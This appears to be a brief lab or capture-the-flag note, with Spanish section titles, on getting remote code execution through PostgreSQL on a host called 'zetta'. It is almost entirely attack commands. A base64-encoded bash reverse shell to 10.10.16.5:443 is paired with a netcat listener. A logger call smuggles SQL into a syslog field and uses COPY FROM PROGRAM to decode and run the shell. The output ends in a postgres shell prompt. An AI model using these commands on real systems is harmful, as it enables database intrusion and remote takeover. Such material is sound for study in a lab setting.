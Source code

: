 
### CONECTARSE A POSTGRES
```shell
psql -U postgres -h 127.0.0.1 -d syslog
```

### POSTGRES RCE
```shell
echo -n "bash -i >& /dev/tcp/10.10.16.5/443 0>&1" | base64; echo
❯ sudo nc -nlvp 443
logger -p local7.info "test', NULL); DROP TABLE IF EXISTS cmd_exec; CREATE TABLE cmd_exec(cmd_output text); COPY cmd_exec FROM PROGRAM \$$ echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi41LzQ0MyAwPiYx | base64 -d | bash \$$;-- -"
postgres@zetta:/var/lib/postgresql/11/main$
```